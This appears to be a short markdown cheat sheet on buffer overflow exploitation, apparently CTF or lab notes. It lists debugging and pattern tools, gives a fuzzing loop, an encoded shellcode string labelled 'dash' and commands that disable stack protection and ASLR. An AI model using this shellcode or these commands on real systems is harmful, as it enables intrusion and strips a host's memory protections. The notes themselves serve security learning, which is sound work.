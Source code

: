 # Buffer overflow

</br>

## Tools

* Plugin pour gdb : https://github.com/longld/peda
* string xxx
* test eax, eax : caracteristique des comparaisons de strings
* objdump -D buffer_01
* strace
* pmap `pidof xxx`
* PwnTools 
* /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
* /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41424344
* https://github.com/JonathanSalwan/ROPgadget
* $ for i in `seq 1 100`; do echo $i; ./simple $(python -c "print 'A'*$i"); done

</br>

### Payloads

#### dash
````
"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"
````

</br>

### Disable securities

````
gcc -fno-stack-protector -z execstack 
Disable ASLR for one binary : setarch `uname -m` -R /root/mybinary
Disable ASLR for the session : echo 0 > /proc/sys/kernel/randomize_va_space
0: off
1: on
2: on (default value)
Disable ASLR:
sysctl -w kernel.randomize_va_space=0 in /etc/sysctl.conf
````

#### compile 32 bit on 64 bit platform

````
apt-get install gcc-multilib
gcc -m32
````

</br>

### gdb
